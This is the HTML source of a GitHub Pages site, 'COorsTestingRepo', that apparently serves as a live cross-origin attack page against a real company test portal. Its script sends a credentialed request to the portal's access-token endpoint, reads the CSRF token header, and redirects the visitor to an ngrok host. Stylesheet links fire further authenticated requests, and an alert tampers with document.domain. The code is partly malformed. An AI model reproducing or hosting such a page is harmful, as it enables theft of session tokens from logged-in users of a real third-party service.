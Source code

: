 <html lang="en-US"><head><meta charset="UTF-8"><meta http-equiv="X-UA-Compatible" content="IE=edge"><meta name="viewport" content="width=device-width, initial-scale=1"><!-- Begin Jekyll SEO tag v2.8.0 --><title>COorsTestingRepo</title><meta name="generator" content="Jekyll v3.9.2" /><meta property="og:title" content="COorsTestingRepo" /><meta property="og:locale" content="en_US" /><link rel="canonical" href="https://sz072.github.io/COorsTestingRepo/" /><meta property="og:url" content="https://sz072.github.io/COorsTestingRepo/" /><meta property="og:site_name" content="COorsTestingRepo" /><meta property="og:type" content="website" /><meta name="twitter:card" content="summary" /><meta property="twitter:title" content="COorsTestingRepo" /><script type="application/ld+json">{"@context":"https://schema.org","@type":"WebSite","headline":"COorsTestingRepo","name":"COorsTestingRepo","url":"https://sz072.github.io/COorsTestingRepo/"}</script>
<!-- End Jekyll SEO tag --><link rel="stylesheet" href="https://testportal.zalaris.com/nea/v1/authenticate?neaRelayState=ZHQPORTAL%3ahttps%3a%2f%2ftestportal.zalaris.com%2fep%2fredirect"><link rel="stylesheet" href="https://testportal.zalaris.com/neptune/native/fetch_csrf?sap-client=510"><!-- start custom head snippets, customize with your own _includes/head-custom.html file --><!-- Setup Google Analytics --><!-- You can set your favicon here --><!-- link rel="shortcut icon" type="image/x-icon" href="/COorsTestingRepo/favicon.ico" --><!-- end custom head snippets --></head><body><div class="container-lg px-3 my-5 markdown-body"><h1><a href="https://sz072.github.io/COorsTestingRepo/">COorsTestingRepo</a></h1><html><body><script>var req = new XMLHttpRequest();req.onload = reqListener;req.open("POST", "https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=GET_CB_CPI_ACCESS_TOKEN&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=21100006&field_id=80302", true);req.withCredentials = true;req.send();function reqListener(){var authHeader = req.getResponseHeader('X-CSRF-Token');location='https://6154-49-37-210-91.in.ngrok.io';};};</script></body></html></div><script src="https://cdnjs.cloudflare.com/ajax/libs/anchor-js/4.1.0/anchor.min.js" integrity="sha256-lZaRhKri35AyJSypXXs4o6OPFTbTmUoltBbDCbdzegg="crossorigin="anonymous"></script><script>anchors.add();</script><link rel="stylesheet" href="https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=GET_CB_CPI_ACCESS_TOKEN&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=21100006&field_id=80302"><script>alert(document.domain='testportal.zalaris.com')</script></body></html>


